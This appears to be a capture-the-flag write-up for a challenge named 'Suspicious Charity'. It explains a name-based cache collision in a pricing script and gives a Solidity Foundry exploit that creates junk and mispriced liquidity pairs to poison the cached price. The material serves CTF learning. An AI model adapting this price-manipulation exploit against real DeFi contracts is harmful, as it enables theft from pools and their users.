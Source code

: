 


### Suspicious Charity
The Python script cache pool's tokens address based on its name, which is formed using `string(uint8)`. We recognize that when `string(>79)`, they become the same in the Python script, which can lead to using incorrect cache. The exploit first create 78 useless pairs, then one pair with low liquidity but high price. After it got cached, we then create a pair with high liquidity but low price. Note that here, in the Python script, the price of the pair is mistreated as the previous expensive pair's.


```solidity
import "../src/Challenge.sol";
import "../src/Router.sol";
import "../src/Token.sol";
import "forge-std/console.sol";
import "forge-std/test.sol";


contract Exploit {
    Router r;

    constructor() {
        Challenge chall = Challenge(0x10d9E3Da7B5e7381A0506BED1068FE4E9d0158Bb);
        r = Router(chall.ROUTER());
    }

    function setUp() public {
        vm.createSelectFork("http://suspicious-charity.challenges.paradigm.xyz:8545/dcb357a1-0c83-4b1a-bb54-386f76241448/main", 18451421);
        Challenge chall = Challenge(0x10d9E3Da7B5e7381A0506BED1068FE4E9d0158Bb);
        r = Router(chall.ROUTER());
    } 


    function STEP0() public {
        require(r.totalListing() <= 78 * 2, "EXCEED_LISTING_CAP");
        address t1 = r.createToken("a", "a");
        address t2 = r.createToken("b", "b");
        r.listing(t1, 1);
        r.listing(t2, 1);
        r.mint(t1,  10 ** 3 + 1);
        r.mint(t2,  10 ** 3 + 1);
        address pair_addr = r.createPair(t1, t2);
        Pair pair = Pair(pair_addr);
        Token(t1).transfer(address(pair), 10 ** 3 + 1);
        Token(t2).transfer(address(pair),  10 ** 3 + 1);
        pair.mint(address(this));
    }

    function STEP1() public {
        address t1 = r.createToken("a", "a");
        address t2 = r.createToken("b", "b");
        r.listing(t1, 1e16);
        r.listing(t2, 1e16);
        r.mint(t1, 1e3 + 1);
        r.mint(t2, 1e3 + 1);
        address pair_addr = r.createPair(t1, t2);
        Pair pair = Pair(pair_addr);
        Token(t1).transfer(address(pair), 1e3 + 1);
        Token(t2).transfer(address(pair), 1e3 + 1);
        pair.mint(address(this));
    }

```